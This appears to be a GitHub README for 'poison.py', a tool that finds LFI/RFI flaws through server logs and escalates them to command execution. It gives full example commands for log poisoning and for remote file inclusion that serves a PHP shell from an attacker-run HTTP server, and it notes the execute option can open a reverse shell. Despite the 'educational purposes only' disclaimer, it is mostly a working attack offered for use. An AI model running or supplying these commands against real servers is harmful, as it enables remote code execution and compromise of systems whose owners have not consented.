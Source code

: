 # poison.py
Fast tool to search log's for LFI/RFI vulnerabilities, and automatic escalation to shell
all the wordlsits and payloads is included

## Exploitation:
![Preview](https://github.com/user-attachments/assets/8d658876-79d6-41f1-9456-91681be9782e)



## Example usage (LFI):
```
./poison.py -u 'http://127.0.0.1/file.php?file=' -e 'id' -p src/payloads.txt -w src/small.txt
```
_____________________________________________________________________________________________
```
-u 'http://127.0.0.1/file.php?file=' # URL for poison the log
```

```
-e 'id' # Command to execute (In this time, command is id) (this option can be used for rev. shell)
```

```
-p src/payloads.txt # list of paylods during the poisoning
```

```
-w src/small.txt # wordlist using the search for available log's file
```
## Example usage (RFI):
```
/poison.py -u 'http://127.0.0.1/index.php?page=' --rfi --lhost 10.10.10.10 --rhost 127.0.0.1 --rport 14852 --lfile 'src/shell.php' -e 'id' --cookie 'PHPSESSID=1234567890'
```
![screenshot](https://github.com/user-attachments/assets/061fdbe8-5b76-43d8-816f-068abf521744)
_____________________________________________________________________________________________
```
--rfi # Remote File Inclusion option
```

```
--lhost 10.10.10.10 # which network interface to bind the local HTTP server to (necesssary only on remote explotiation)
```

```
-rhost 127.0.0.1 # remote-ip-address of http-server in request during the RFI
```

```
--rport 14852 # remote-port of http-server in request during the RFI
```

```
--lfile 'src/shell.php' # payload which include in the request during the RFI
```

```
-e 'id' # command for src/shell.php 
```

```
--cookie 'PHPSESSID=1234567890' # cookie for authorized requests
```

# ToDo list:
-   [x] Add the function with command execution
-   [x] Add the support of wordlist's
-   [ ] Add different injection endpoints (Headers)
-   [ ] Interactive shell 
-   [X] Add the function for RFI

# FOR EDUCATIONAL PURPOSES ONLY!
Usage of poison.py for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Author assume no liability and are not responsible for any misuse or damage caused by this program
